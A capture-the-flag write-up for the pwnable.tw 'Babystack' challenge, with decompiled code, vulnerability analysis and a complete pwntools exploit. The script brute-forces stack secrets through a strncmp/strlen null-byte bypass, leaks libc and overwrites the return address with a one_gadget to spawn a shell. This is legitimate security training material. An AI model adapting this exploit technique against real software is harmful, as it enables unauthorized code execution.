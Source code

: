 ```yaml
---
date: '2025-09-01T10:00:35+07:00'
draft: false
title: 'Babystack (250 pts) - pwnable.tw'
tags: ['pwnable.tw']
---
```


## 0x1. Initial Reconnaissance

### file
```bash
↪ file babystack
babystack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, stripped
```

### checksec
```bash
↪ checksec --file=babystack
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols	Partial	1		4		babystack
```

### ./babystack
```
↪ ./babystack
>> 1
Your passowrd :
```


## 0x2. Reverse Engineering

### main
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *v3; // rcx
  __int64 v4; // rdx
  char v6[64]; // [rsp+0h] [rbp-60h] BYREF
  __int64 buf[2]; // [rsp+40h] [rbp-20h] BYREF
  char v8[16]; // [rsp+50h] [rbp-10h] BYREF

  sub_D30();
  unk_202018 = open("/dev/urandom", 0);
  read(unk_202018, buf, 0x10uLL);
  v3 = qword_202020;
  v4 = buf[1];
  *(_QWORD *)qword_202020 = buf[0];
  v3[1] = v4;
  close(unk_202018);
  do
  {
    while ( 1 )
    {
      write(1, ">> ", 3uLL);
      _read_chk(0LL, v8, 16LL, 16LL);
      if ( v8[0] == 50 )
        break;
      if ( v8[0] == 51 )
      {
        if ( unk_202014 )
          sub_E76(v6);
        else
LABEL_15:
          puts("Invalid choice");
      }
      else
      {
        if ( v8[0] != 49 )
          goto LABEL_15;
        if ( unk_202014 )
          unk_202014 = 0;
        else
          sub_DEF((const char *)buf);
      }
    }
    if ( !unk_202014 )
      exit(0);
  }
  while ( memcmp(buf, qword_202020, 0x10uLL) );
  return 0LL;
}
```

### sub_E76
```c
int __fastcall sub_E76(char *a1)
{
  char src[128]; // [rsp+10h] [rbp-80h] BYREF

  printf("Copy :");
  sub_CA0((unsigned __int8 *)src, 0x3Fu);
  strcpy(a1, src);
  return puts("It is magic copy !");
}
```

### sub_DEF
```c
int __fastcall sub_DEF(const char *a1)
{
  size_t v1; // rax
  char s[128]; // [rsp+10h] [rbp-80h] BYREF

  printf("Your passowrd :");
  sub_CA0((unsigned __int8 *)s, 0x7Fu);
  v1 = strlen(s);
  if ( strncmp(s, a1, v1) )
    return puts("Failed !");
  unk_202014 = 1;
  return puts("Login Success !");
}
```


## 0x3. Analysis

In this problem, we have 3 options, choose 1 to input the password up to 128 bytes, 2 to break the first while loop. If you input the right passwords, they will turn ```unk_202014``` to true and allow you to copy 63 bytes to ```v6[64]``` with option 3. The passwords will be stored at ```buf[2]``` on stack and ```qword_202020``` on bss. If you don't wanna stuck in while loop or end the process instantly after breaking the first while loop, you should make sure that ```unk_202014``` is true and the value in ```buf``` and ```qword_202020``` are the same. 

Another noticeable point is that they check the password you input using ```strncmp``` with the length of your input. That means if you input a null value (```\x00```), you can bypass :DD, because ```strlen``` counts til the first null byte.


## 0x4. Exploit

I can't think of anything but return address overwritten and buffer overflow. But, to bypass the while loop, I have to have the password. To do that, just brute-force to get the passwords. Because you can input up to 128 bytes to guess the password, at first you can think about brute-force to get return address, which is __libc_call_main, but it's impossible, the last 2 bytes of rbp are null. 

Observe carefully, you can see ```v6[64], buf[2], v8[16], rbp, and return address``` are totally adjecent. And the stack frame of ```sub_E76``` and ```sub_DEF``` are at the same address, ```src[128]``` and ```s[128]``` are at ```rbp-0x80``` too.

Now, look at this:
```
pwndbg> x/2gx $rbp - 0x80 + 0x40
0x7fffffffe540:	0x0000555555400b70	0x00007ffff7878439
pwndbg> vmmap 0x00007ffff7878439
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
    0x555555a00000     0x555555a01000 rw-p     1000    4000 babystack_patched
►   0x7ffff7800000     0x7ffff79bf000 r-xp   1bf000       0 libc_64.so.6 +0x78439
    0x7ffff79bf000     0x7ffff7bbf000 ---p   200000  1bf000 libc_64.so.6
```

Because ```strcpy``` will copy the string until the first null byte. You can use ```sub_DEF``` to input full "A" til ```&s + 0x48```, copy it to ```v6[64]``` to overwrite ```buf[2]```, and brute-force to get IO_new_file_setbuf + 9:DD. Do it again to overwrite one_gadget to return address :b and get the shell.

### Exploit
```py
from pwn import *

exe = ELF("./babystack_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
    else:
        r = remote("chall.pwnable.tw", 10205)

    return r

def password (p, password):
    p.sendafter (b'>> ', b'1' + b'A' * 15)
    p.sendafter (b'Your passowrd :', password)

def copy (p, text):
    p.sendafter (b'>> ', b'3' + b'A' * 15)
    p.sendafter (b'Copy :', text)

bad_chars = [
    0x0a  # LF
]

def backtrack (p, first_string, limit):
    result = b''
    cnt = 0
    while True:
        if (cnt == limit):
            break
        for i in range (1, 256):
            if i in bad_chars:
                continue
            password (p, first_string + result + p8 (i) + b'\x00')
            data = p.recv (3)
            # print ("the result is : ", data.re)
            if b'Log' in data:
                result = result + p8(i)
                break
        p.sendafter (b'>> ', b'1')
        cnt += 1

    return result

def main():
    # IO_new_file_setbuf+9
    p = conn()
    password1 = backtrack (p, b'', 8)
    print ("The first password is : ", hex (u64 (password1)))
    password2 = backtrack (p, password1, 8)
    print ("The second password is : ", hex (u64 (password2)))
    
    password (p, b'A' * 64 + b'A' * 8)
    password (p, b'\x00')
    copy (p, b'A')
    p.sendafter (b'>> ', b'1')
    leak_libc = backtrack (p, b'A' * 8, 6) + b'\x00' * 2
    print ("The address of IO_new_file_setbuf+9 is: ", hex (u64 (leak_libc)))
    libc.address = u64 (leak_libc) - libc.symbols['_IO_file_setbuf'] - 9
    print ("The address of libc is : ", hex (libc.address))



    payload = b'A' * 64 + password1 + password2 + b'3' + b'A' * 15 + b'A' * 8 + p64 (libc.address + 0x45216)
    password (p, payload)
    password (p, b'\x00')
    copy (p, b'A')
    p.sendafter (b'>> ', b'2')


    p.interactive()


if __name__ == "__main__":
    main()
```
